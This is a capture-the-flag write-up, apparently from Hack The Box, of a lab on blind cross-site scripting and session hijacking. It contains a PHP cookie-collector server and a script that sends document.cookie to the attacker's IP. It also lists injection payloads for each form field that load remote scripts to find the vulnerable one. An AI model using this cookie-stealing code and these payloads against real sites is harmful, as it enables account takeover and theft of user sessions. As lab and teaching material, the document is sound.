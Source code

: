 # HTB XSS and Session Hijacking Writeup

This repository documents identifying a vulnerable input field via XSS and performing session hijacking to steal the admin's cookie and retrieve the flag from `login.php`.

- **Attacker IP:** `10.10.14.179`
- **Target IP:** `10.129.31.89`
- **Date:** April 11, 2025

## Steps

### 1. Set Up Attacker Server
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```
**index.php** 
```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
**script.js**
```bash
new Image().src='http://10.10.14.179/index.php?c='+document.cookie;
```
**cookies.txt**
```bash
sudo touch cookies.txt
sudo chmod 666 cookies.txt
```
**Run server**
```bash
sudo php -S 0.0.0.0:80
```
### 2. Identify Vulnerable Field
**Form**: http://10.129.31.89/hijacking/index.php

**Fields Tested:**

fullname: ```bash "><script src=http://10.10.14.179/fullname></script> ```

username: "><script src=http://10.10.14.179/username></script>

password: "><script src=http://10.10.14.179/password></script>

email: "><script src=http://10.10.14.179/email></script>

imgurl: "><script src=http://10.10.14.179/imgurl></script>

**Process:**

Injected each payload into one field at a time, others set to **test**.

Checked server logs for requests (e.g., GET /fullname).

Vulnerable field identified when a request appeared.

### 3. Exploit with XSS
**Payload**: 

```bash ">
<script src=http://10.10.14.179/script.js></script>
```

Inject this script into the vulnerable field

**Cookie Captured**:
```bash
cat cookies.txt
```
